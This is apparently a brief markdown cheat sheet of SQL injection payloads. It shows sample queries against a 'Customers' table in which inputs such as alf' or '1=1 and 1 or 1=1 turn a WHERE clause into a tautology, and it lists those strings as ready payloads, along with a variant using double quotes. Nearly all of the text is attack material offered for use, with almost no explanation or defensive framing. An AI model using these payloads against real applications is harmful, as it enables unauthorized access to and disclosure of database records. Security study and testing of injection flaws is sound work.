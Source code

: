 # Queries to Inject
```sql
SELECT * FROM Customers WHERE CustomerName LIKE '%alf%'
SELECT * FROM Customers WHERE CustomerName LIKE '%alf' or '1=1%' -- alf' or '1=1
SELECT * FROM Customers WHERE CustomerID =1 or 1=1 -- 1 or 1=1
SELECT * FROM Customers WHERE CustomerID ='1' or '1=1' -- 1' or '1=1
```
# So the payloads are 
alf' or '1=1
1 or 1=1
1' or '1=1

- and replace all the apostrophes with quotes(")